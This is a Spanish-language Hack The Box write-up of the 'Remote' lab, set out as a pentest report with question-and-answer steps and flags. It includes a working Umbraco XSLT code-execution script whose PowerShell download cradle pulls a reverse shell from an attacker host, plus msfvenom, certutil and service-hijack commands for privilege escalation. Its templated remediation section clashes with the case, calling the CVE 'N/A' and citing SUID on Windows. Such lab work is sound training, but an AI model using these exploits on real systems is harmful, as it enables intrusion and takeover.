







# Informe Técnico de Seguridad Ofensiva: Remote


**Evaluación de Seguridad Ofensiva y Penetration Testing** realizada sobre el entorno de laboratorio **Remote** de **Hack The Box**, siguiendo los estándares de ejecución metodológica **OffSec PEN-200 (OSCP)** y **PTES (Penetration Testing Execution Standard)**.

---

## 📑 1. Resumen Ejecutivo (Executive Summary)

* **Objetivo de la Evaluación:** Identificar, documentar y explotar debilidades de seguridad en el host objetivo para evaluar el impacto sobre la confidencialidad, integridad y disponibilidad del sistema.
* **Calificación de Riesgo:** `CRÍTICO` (Acceso no autenticado que deriva en compromiso completo de la máquina y obtención de máximos privilegios administrativos).
* **Vector de Acceso Inicial:** Explotación de servicio de red
* **Vector de Elevación de Privilegios:** Escalada local de privilegios
* **Estado Final:** Compromiso total del objetivo (`User Proof` y `Root/System Proof` obtenidas exitosamente).

### Ficha Técnica de la Evaluación

| Parámetro | Detalle Técnico |
| :--- | :--- |
| **Host Objetivo** | Remote |
| **Plataforma** | Hack The Box |
| **Sistema Operativo** | Windows |
| **Nivel de Dificultad** | Easy |
| **CVE(s) Involucrados** | N/A |
| **Vector de Entrada** | Explotación de servicio de red |
| **Mecanismo de Escalada** | Escalada local de privilegios |
| **Consultor / Auditor** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Diagrama del Flujo de Compromiso (Attack Path)

```
[ Fase 1: Reconocimiento ]
         │
         ▼
[ Fase 2: Enumeración & Identificación de Vectores ]
         │─── Descubrimiento de servicios y análisis de superficie de ataque
         └─── Verificación de configuraciones erróneas y CVEs conocidos
         │
         ▼
[ Fase 3: Explotación Inicial (Foothold) ]
         │─── Ejecución del vector: Explotación de servicio de red
         └─── Establecimiento de Reverse Shell / Acceso de usuario
         │
         ▼
[ Fase 4: Escalada de Privilegios Local ]
         │─── Auditoría interna: Escalada local de privilegios
         └─── Elevación a privilegios de superusuario (root / SYSTEM)
         │
         ▼
[ Fase 5: Evidencia & Banderas ]
         └─── Captura de User Flag y Root Flag
```

---

## 🔬 3. Procedimiento Técnico y Evidencias Paso a Paso

What service runs on port 2049?

R: mountd


**Before we proceed enumerating other services, nmap reveals that anonymous login is allowed for FTP. How many files are available over anonymous FTP?**

R: 0


**On TCP port 80 we can see a web store. What is the name of the content management system (CMS) present on Remote?**

R: /umbraco



**Since FTP yielded no results we shift our attention over to NFS shares. What is the name of the directory that is available on NFS? (Don't include a leading /)**

R: site_backups



**After mounting the "site_backups" share we realize that an "Umbraco" directory exists inside it. Local installation files sometimes include sensitive information like passwords, usernames, e-mails, etc. What is the name of the file that includes the password for the "admin" user?**

R:umbraco.sdf



**No clear-text passwords were available on that file. But, we managed to grab some password hashes. What is the clear text password of the "admin" user?**

R: baconandcheese



**What version of Umbraco is running on the remote machine?**

R:7.12.4


```jsx
import requests
from bs4 import BeautifulSoup


login = "admin@htb.local"
password = "baconandcheese"
host = "http://10.10.10.180"
command = "IEX (IWR http://10.10.14.8/Invoke-PowerShellTcp.ps1 -UseBasicParsing)"


payload = f"""\
<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:msxsl="urn:schemas-microsoft-com:xslt"
    xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">
  <msxsl:script language="C#" implements-prefix="csharp_user">
    public string xml() {{
      string cmd = "{command}";
      System.Diagnostics.Process proc = new System.Diagnostics.Process();
      proc.StartInfo.FileName = "powershell.exe";
      proc.StartInfo.Arguments = cmd;
      proc.StartInfo.UseShellExecute = false;
      proc.StartInfo.RedirectStandardOutput = true;
      proc.Start();
      string output = proc.StandardOutput.ReadToEnd();
      return output;
    }}
  </msxsl:script>
  <xsl:template match="/">
    <xsl:value-of select="csharp_user:xml()"/>
  </xsl:template>
</xsl:stylesheet>
"""


url_login = host + "/umbraco/backoffice/UmbracoApi/Authentication/PostLogin"
loginfo = { "username": login, "password": password}
s = requests.session()
r2 = s.post(url_login, json=loginfo)

if "set-cookie" not in r2.headers:
    print("[!] Login failed")
    exit()


url_xslt = host + "/umbraco/developer/Xslt/xsltVisualize.aspx"
r3 = s.get(url_xslt)
soup = BeautifulSoup(r3.text, 'html.parser')
VIEWSTATE = soup.find(id="__VIEWSTATE")['value']
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value']
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN']
headers = {'UMB-XSRF-TOKEN': UMBXSRFTOKEN}


data = {
    "__EVENTTARGET": "",
    "__EVENTARGUMENT": "",
    "__VIEWSTATE": VIEWSTATE,
    "__VIEWSTATEGENERATOR": VIEWSTATEGENERATOR,
    "ctl00$body$xsltSelection": payload,
    "ctl00$body$contentPicker$ContentIdValue": "",
    "ctl00$body$visualizeDo": "Visualize+XSLT"
}

r4 = s.post(url_xslt, data=data, headers=headers)
soup = BeautifulSoup(r4.text, 'html.parser')
CMDOUTPUT = soup.find(id="result").getText()
print(CMDOUTPUT)

```



**Submit the flag located on the public user's desktop.**

R: 8a3df1fd74f80fc0127ba1f93cf70ffd


**After getting code execution on the system through a vulnerability in Umbraco, what non-default service is running on the system?**

R: TeamViewer7




**Which 2019 CVE is related to this version of TeamViewer?**

R: CVE-2019-18988


**What is the password that is extracted by exploiting the TeamViewer vulnerability?**

R: !R3m0te!

**Submit the flag located on the administrator's desktop.**

R: c17b5141ba1682fdf88be10bc106314e

```jsx
sc.exe qc usosvc
sc.exe stop UsoSvc
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=998 -f exe -o win-shell.exe

certutil.exe -urlcache -f http://10.10.14.8/win-shell.exe sh1.exe

sc.exe config usosvc binPath="C:\Users\Public\sh1.exe"

sc.exe start UsoSvc
```




---

## 🛡️ 4. Plan de Remediación y Recomendaciones de Hardening

### Acciones Tácticas Inmediatas
1. **Aplicación de Parches y Actualización:** Actualizar todos los servicios obsoletos y aplicar los parches correspondientes a las vulnerabilidades documentadas (N/A).
2. **Revisión de Permisos Críticos:** Eliminar permisos SUID/sudo innecesarios y auditar listas de control de acceso (ACLs) en directorios y archivos sensibles.
3. **Cierre de Superficie de Exposición:** Configurar firewalls a nivel de host para denegar puertos de administración o de depuración que no deban estar expuestos públicamente.

### Acciones Estratégicas y de Arquitectura
1. **Principio de Mínimo Privilegio (PoLP):** Configurar servicios y aplicaciones para que se ejecuten bajo cuentas de servicio con privilegios limitados sin acceso a shells interactivas.
2. **Segmentación de Red:** Aislar componentes críticos y servidores de aplicaciones en VLANs dedicadas con inspección de tráfico Este-Oeste.
3. **Monitorización Continua y EDR:** Implementar reglas de detección basadas en comportamiento para identificar ejecuciones anómalas de comandos, spawning de shells y tráfico de red no autorizado.

---

## 📊 5. Mapeo con Matriz MITRE ATT&CK

| Táctica | ID de Técnica | Nombre de Técnica | Aplicación en el Ejercicio |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Vulnerability Scanning | Detección automatizada y manual de servicios mediante escaneo de puertos |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Explotación de vulnerabilidad en servicio de red expuesto (Explotación de servicio de red) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Spawning de reverse shell interactiva para control del endpoint |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Mechanism / Exploitation | Elevación de privilegios hacia superusuario (Escalada local de privilegios) |

---

© 2026 **araizcorp** — Documentación técnica desarrollada para preparación y consultoría de certificaciones **OffSec** (OSCP, OSEP, OSWE).
